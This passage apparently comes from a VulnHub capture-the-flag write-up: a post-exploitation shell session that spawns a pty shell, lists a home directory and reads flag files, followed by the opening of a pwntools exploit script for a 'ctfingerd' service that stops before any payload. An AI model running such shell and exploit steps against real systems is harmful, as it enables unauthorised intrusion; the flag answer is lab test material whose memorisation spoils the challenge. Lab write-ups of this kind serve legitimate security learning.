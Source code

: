 ```
python -c 'import pty; pty.spawn("/bin/sh")'
$ id
id
uid=1000(vulnhub) gid=1000(vulnhub) groups=1000(vulnhub),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev)
$ cat flag.txt
Sorry Mario. The flag is in another castle.
$ ls -alh
ls -alh
total 40K
drwx------ 3 vulnhub vulnhub 4.0K Oct 25 16:49 .
drwxr-xr-x 6 root    root    4.0K Oct 20 03:38 ..
-rw------- 1 vulnhub vulnhub    0 Oct 20 03:28 .bash_history
-rw-r--r-- 1 vulnhub vulnhub  220 Sep 12 15:05 .bash_logout
-rw-r--r-- 1 vulnhub vulnhub 3.5K Sep 12 15:05 .bashrc
-rw-r--r-- 1 vulnhub vulnhub   45 Oct 25 16:49 flag.txt
-rw-r--r-- 1 vulnhub vulnhub  462 Jan  2 16:00 log.txt
drwxr-xr-x 2 root    root    4.0K Oct 25 16:46 .my_loot
-rw-r--r-- 1 vulnhub vulnhub  675 Sep 12 15:05 .profile
-rwx------ 1 vulnhub vulnhub  297 Oct 20 03:21 run_service.sh
-rw-r--r-- 1 vulnhub vulnhub   74 Oct 20 02:08 .selected_editor
$ cat .my_loot/flag.txt
cat .my_loot/flag.txt


        !!! CONGRATULATIONS !!!

                 .-"-.
                / 4 4 \
                \_ v _/
                //   \\      
               ((     ))
         =======""===""=======
                  |||
                  '|'

      FLAG{i_tot_i_saw_a_puddy_tat}
```

Code:
```
#!/usr/bin/env python2

from pwn import *
import re
import sys

context(bits=64,
        os="linux",
        aslr=False,
        #log_level="DEBUG",
        terminal=["tmux", "splitw", "-l", "45"])

if len(sys.argv) > 1:
    local = True
else:
    local = False

if local:
    p_main = process("./ctfingerd")

def encode_payload(p):
    return "".join("\\x{:02x}".format(ord(c)) for c in p)

```
